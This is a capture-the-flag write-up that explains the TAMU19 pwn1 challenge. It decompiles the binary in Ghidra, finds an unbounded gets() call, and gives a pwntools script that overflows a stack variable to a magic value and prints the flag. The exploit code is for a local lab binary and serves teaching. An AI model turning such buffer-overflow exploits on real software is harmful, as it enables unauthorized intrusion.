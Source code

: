 # Tamu19 pwn1

Let's take a look at the binary:

```
$    file pwn1
pwn1: ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 3.2.0, BuildID[sha1]=d126d8e3812dd7aa1accb16feac888c99841f504, not stripped
$    pwn checksec pwn1
[*] '/Hackery/pod/modules/bof_variable/tamu19_pwn1/pwn1'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$    ./pwn1
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
15935728
I don't know that! Auuuuuuuugh!
```

So we can see that it is a `32` bit binary with RELRO, a Non-Executable Stack, and PIE (those binary mitigations will be discussed later). We can see that when we run the binary, it prompts us for input, and prints some text. When we take a look at the main function in Ghidra we see this:

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */
/* WARNING: Removing unreachable block (ram,0x000108bb) */

undefined4 main(void)

{
  int strcmpResult0;
  int strcmpResult1;
  char input [43];
 
  setvbuf(stdout,(char *)0x2,0,0);
  puts(
      "Stop! Who would cross the Bridge of Death must answer me these questions three, ere theother side he see."
      );
  puts("What... is your name?");
  fgets(input,0x2b,stdin);
  strcmpResult0 = strcmp(input,"Sir Lancelot of Camelot\n");
  if (strcmpResult0 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,stdin);
  strcmpResult1 = strcmp(input,"To seek the Holy Grail.\n");
  if (strcmpResult1 == 0) {
    puts("What... is my secret?");
    gets(input);
    puts("I don\'t know that! Auuuuuuuugh!");
    return 0;
  }
  puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

So right off the back, we can see we are dealing with a reference to one of the greatest movies ever (Monty Python and the Holy Grail). We can see that it will scan in input into `input` using `fgets`, then compares our input with `strcmp`. It does this twice. The first time it checks for the string `Sir Lancelot of Camelot\n` and the second time it checks for the string `To seek the Holy Grail.\n`. If we don't pass the check the first time, it will print `I don\'t know that! Auuuuuuuugh!` and exit. For the second check if we pass it, the code will call the function `gets` with `input` as an argument. The function `gets` will scan in data until it either gets a newline character or an EOF. As a result on paper there is no limit to how much it can scan into memory. Since the are it is scanning into is finite, we will be able to overflow it and start overwriting subsequent things in memory.

Also looking at the assembly code for around the `gets` call, we see something interesting that the decompiled code doesn't show us:
```
        000108aa e8 71 fc        CALL       gets                                             char * gets(char * __s)
                 ff ff
        000108af 83 c4 10        ADD        ESP,0x10
        000108b2 81 7d f0        CMP        dword ptr [EBP + local_18],0xdea110c8
                 c8 10 a1 de
        000108b9 75 07           JNZ        LAB_000108c2
        000108bb e8 3d fe        CALL       print_flag                                       undefined print_flag()
                 ff ff
```

So we can see that it compares the contents of `local_18` to `0xdea110c8`, and if it is equal (which would mean it's zero) it calls the `print_flag` function. Looking at the decompiled code for `print_flag`, we see that it prints the contents of `flag.txt`:
```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void print_flag(void)

{
  FILE *flagFile;
  int flag;
 
  puts("Right. Off you go.");
  flagFile = fopen("flag.txt","r");
  while( true ) {
    flag = _IO_getc((_IO_FILE *)flagFile);
    if ((char)flag == -1) break;
    putchar((int)(char)flag);
  }
  putchar(10);
  return;
}
```

So if we can use the `gets` call to overwrite the contents of `local_18` to `0xdea110c8`, we should get the flag (if you're running this locally you will need to have a copy of `flag.txt` that is in the same directory as the binary). So in order to reach the `gets` call, we will need to send the program the string `Sir Lancelot of Camelot\n` and `To seek the Holy Grail.\n`. Looking at the stack layout in Ghidra (we can see it by double clicking on any of the variables in the variable declarations for the main function) shows us the offset between the start of our input and `local_18`:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main(undefined1 param_1)
             undefined         AL:1           <RETURN>                                XREF[2]:     00010807(W),
                                                                                                   00010869(W)  
             undefined1        Stack[0x4]:1   param_1                                 XREF[1]:     00010779(*)  
             int               EAX:4          strcmpResult0                           XREF[1]:     00010807(W)  
             int               EAX:4          strcmpResult1                           XREF[1]:     00010869(W)  
             undefined4        Stack[0x0]:4   local_res0                              XREF[1]:     00010780(R)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 local_18                                XREF[2]:     000107b4(W),
                                                                                                   000108b2(R)  
             char[43]          Stack[-0x43]   input                                   XREF[5]:     000107ed(*),
                                                                                                   00010803(*),
                                                                                                   0001084f(*),
                                                                                                   00010865(*),
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*),
                                                                                          _start:000105e6(*), 00010ab8,
                                                                                          00010b4c(*), 00011ff8(*)  
        00010779 8d 4c 24 04     LEA        ECX=>param_1,[ESP + 0x4]

```

So we can see that `input` starts at offset `-0x43`. We see that `local_18` starts at offset `-0x18`. This gives us an offset of `0x43 - 0x18 = 0x2b` between the start of our input and `local_18`. Then we can just overflow it (write more data to a region than it can hold, so it spills over and starts overwriting subsequent things in memory) and overwrite `local_18` with `0xdea110c8`. Putting it all together we get the following exploit:

```
# Import pwntools
from pwn import *

# Establish the target process
target = process('./pwn1')

# Make the payload
payload = ""
payload += "0"*0x2b # Padding to `local_18`
payload += p32(0xdea110c8) # the value we will overwrite local_18 with, in little endian

# Send the strings to reach the gets call
target.sendline("Sir Lancelot of Camelot")
target.sendline("To seek the Holy Grail.")

# Send the payload
target.sendline(payload)

target.interactive()
```

When we run it:
```
$    python exploit.py
[+] Starting local process './pwn1': pid 12060
[*] Switching to interactive mode
[*] Process './pwn1' stopped with exit code 0 (pid 12060)
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
$
[*] Got EOF while sending in interactive
```

Just like that, we got the flag!